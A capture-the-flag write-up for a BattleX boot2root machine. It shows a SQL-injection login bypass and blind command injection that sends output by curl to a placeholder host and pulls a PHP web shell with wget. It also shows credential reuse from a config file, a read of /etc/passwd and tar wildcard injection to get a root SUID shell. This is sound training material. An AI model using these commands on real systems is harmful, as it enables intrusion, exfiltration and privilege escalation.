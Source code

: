 ## BattleX CTF: machine2 
#### Category: Boot2Root
#### Score: 110
#### Number of Solves: 5 [First Blood 🩸] 
#### Machine name
### Description

> Ready to go

###  TL; DR

Exploit command injection to password reuse to wildcard injection on sudo tar to gain root access

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 21:47 WAT
Nmap scan report for 10.10.27.9
Host is up (0.63s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Big Hacking Book Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
```

### Exploring

![Imgur](https://i.imgur.com/vxHYIir.png)

_front page_

Nothing much in the source code, just links to a login page and register page that didn't exist

![Imgur](https://i.imgur.com/7AYjkla.png)

_Login page_

Since there was no registration page and I didn't want to fuss with files or directories, I tried a basic SQL injection to bypass the login page, and it worked.

```
Username: '--
Password: '
```
Login page bypassed and greeted by a ping system in /pingsystem.php .

![Imgur](https://i.imgur.com/lsA4hKP.png)

This will likely be vulnerable to command injection, I just have to find a way to trigger the command injection. 

![Imgur](https://i.imgur.com/tz2d93t.png)

My form data was 

```
127.0.0.1; sleep 5
```

After several trials of several techniques of chaining commands, I found the one that works. 

```
127.0.0.1 `sleep 5`
```

The result didn't show, but the delay was sure executed by the system and I concluded it was vulnerable to blind command injection.

### Exploiting 

I proceeded to host a http server to get a result from my blind command injection. That way, it will be possible for me to get an insight of what's going on.

With some Python scripting and tweaking, I got an insight of the directory structure, current user and id

```
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(ls -lah)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(pwd)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(whoami)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(id)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(wget -O images/exploit.php http://MY_IP:8090/ex.php)" http://MY_IP:8080/`
```

![own](https://i.imgur.com/bBqJg6t.png)

I let the server wget my php shell to the /images folder since I can write there (I tried with the current directory and it didn't work)

![Imgur](https://i.imgur.com/TIWTlQX.png)

With my netcat listening. I got shell

![Imgur](https://i.imgur.com/ZHlh9ck.png)

### Escalating privileges

```
www-data@BattleX:/var/www/html$ cat db.php
cat db.php
<?php
// db.php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$servername = "localhost";
$username = "hacksparo";
$password = "hacksparoisthebest123";
$dbname = "books";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
?>
```

There's a credential in the db.php. It is totally possible for this credential to be used for an actual user in the system. 

```
www-data@BattleX:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[snip]
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
hacksparo:x:1000:1000:,,,:/home/hacksparo:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
```
Sure, there's a user hacksparo in the system. I upgraded my shell to a python spawned one so I can try out the credentials.

![Imgur](https://i.imgur.com/1sGZp3s.png)

I am user hacksparo, time to get flag. 

```
hacksparo@BattleX:~$ cat user.txt
cat user.txt
BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}
```
User flag: `BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}` 

### Getting root access

```
hacksparo@BattleX:~$ sudo -l
sudo -l
Matching Defaults entries for hacksparo on BattleX:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksparo may run the following commands on BattleX:
    (ALL) NOPASSWD: /bin/bash /opt/backup/backup.sh
```

With `sudo -l`, I can get if hacksparo can run sudo generally or only on one or two commands, sure enough, hacksparo can only run this specific command `sudo /bin/bash /opt/backup/backup.sh` on the machine. 

```
hacksparo@BattleX:~$ cat /opt/backup/backup.sh
#this is a test

sudo tar -cf backup.tar *
```
I can't alter the file to change its content but I can only run the script. `tar` can be exploited to gain access. The exploit is known as wildcard injection. The process I took was this 

```bash
echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Running that and running `sudo /bin/bash /opt/backup/backup.sh` will copy bash from /bin/ directory to my current direcotry and set suid bit to it. 

```
hacksparo@BattleX:~$ echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh
hacksparo@BattleX:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
hacksparo@BattleX:~$ echo "" > --checkpoint=1
hacksparo@BattleX:~$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   shell.sh   user.txt
```

![Imgur](https://i.imgur.com/39rdvXd.png)

success, now I can run `./bash -p` and get root access

![Imgur](https://i.imgur.com/Ti6Q0M6.png)

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}
```
Root flag: `BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}`

![Not bad meme](https://media1.tenor.com/m/pK9Gkdmh-mAAAAAC/notbad-soccer.gif)
Not bad.